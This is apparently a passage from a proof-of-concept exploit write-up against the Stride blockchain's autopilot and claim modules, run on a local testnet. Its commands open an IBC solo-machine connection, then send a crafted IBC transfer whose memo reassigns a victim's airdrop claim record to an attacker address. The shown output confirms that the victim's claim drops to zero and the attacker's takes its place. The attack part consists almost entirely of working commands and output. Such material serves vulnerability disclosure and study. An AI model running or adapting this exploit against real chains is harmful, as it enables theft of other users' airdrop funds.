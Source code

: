 ```
$ ./target/release/solo-machine ibc connect localstride 
Created solo machine client on IBC enabled chain [Client ID = 06-solomachine-6]
Created tendermint client on solo machine [Client ID = 07-tendermint-M48f]
Initialized connection on IBC enabled chain [Connection ID = connection-4]
Initialized connection on solo machine [Connection ID = connection-Kinb]
Confirmed connection on IBC enabled chain [Connection ID = connection-4]
Confirmed connection on solo machine [Connection ID = connection-Kinb]
Initialized channel on IBC enabled chain [Channel ID = channel-0]
Initialized channel on solo machine [Channel ID = channel-wwl6]
Confirmed channel on IBC enabled chain [Channel ID = channel-0]
Confirmed channel on solo machine [Channel ID = channel-wwl6]
Connection established!

+----------------------------+--------------------+
| Chain ID                   | localstride        |
+----------------------------+--------------------+
| Solo machine client ID     | 06-solomachine-6   |
+----------------------------+--------------------+
| Tendermint client ID       | 07-tendermint-M48f |
+----------------------------+--------------------+
| Solo machine connection ID | connection-4       |
+----------------------------+--------------------+
| Tendermint connection ID   | connection-Kinb    |
+----------------------------+--------------------+
| Solo machine channel ID    | channel-0          |
+----------------------------+--------------------+
| Tendermint channel ID      | channel-wwl6       |
+----------------------------+--------------------+
```

* Trigger the autopilot module and update the claim record by sending an IBC transfer packet

```
# Trigger the autopilot module to change claim record by sending an IBC transfer with sender field as the address whose airdrop record we want to change and receiver field to be of update airdrop address memo format
./target/release/solo-machine ibc mint localstride 1 foobarz stride192n6u8de5x0zaad47m6pc2fk5vu5dd5wtx6xcf "{\"autopilot\":{\"receiver\":\"stride1y50hmprq9l4hcuj86jru62zt8xctap9h6cxyu5\",\"claim\":{\"stride_address\":\"stride1y50hmprq9l4hcuj86jru62zt8xctap9h6cxyu5\",\"airdrop_id\":\"evmos\"}}}"
# You should see the following log entry in the testnet logs
10:07AM INF updating airdrop address stride192n6u8de5x0zaad47m6pc2fk5vu5dd5wtx6xcf (orig stride192n6u8de5x0zaad47m6pc2fk5vu5dd5wtx6xcf) to stride1y50hmprq9l4hcuj86jru62zt8xctap9h6cxyu5 for airdrop evmos module=x/autopilot
# Victim account's claim is updated to zero and attacker account's claim record is set to victim's earlier airdrop amount
$ strided query claim claim-record evmos stride1y50hmprq9l4hcuj86jru62zt8xctap9h6cxyu5
claim_record:
  action_completed:
  - false
  - false
  - false
  address: stride1y50hmprq9l4hcuj86jru62zt8xctap9h6cxyu5
  airdrop_identifier: evmos
  weight: "1.000000000000000000"
$ strided query claim claim-record evmos stride192n6u8de5x0zaad47m6pc2fk5vu5dd5wtx6xcf
claim_record:
  weight: "0.000000000000000000"
# Attacker can now claim victim's airdrop
```
